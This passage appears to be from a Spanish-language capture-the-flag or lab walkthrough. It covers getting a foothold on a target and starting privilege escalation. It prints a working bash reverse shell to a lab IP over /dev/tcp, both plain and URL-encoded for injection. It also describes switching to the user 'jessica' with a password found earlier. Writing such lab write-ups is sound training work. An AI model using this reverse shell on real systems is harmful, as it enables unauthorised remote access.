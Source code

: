 Por lo que vamos a poner nuestra revershell en urlencode y para ello podemos usar [https://www.urlencoder.org/](https://www.urlencoder.org/):

```
bash -c 'exec bash -i &>/dev/tcp/192.168.226.19/443 <&1'

bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F192.168.226.19%2F443%20%3C%261%27
```

Y ahora volvemos a enviar 

![20240920124902.png](20240920124902.png)

![20240920124914.png](20240920124914.png)

Recibimos una revershell como el usuario `www-data`

# Escalada de privilegios

## Usuario - Jessica

Enumerando encontramos que se tiene un usuario `jessica` en el servidor.

![20240920125222.png](20240920125222.png)

y haciendo uso de la contraseña que encontramos podemos convertirnos en el usuario `jessica`

![20240920125343.png](20240920125343.png)
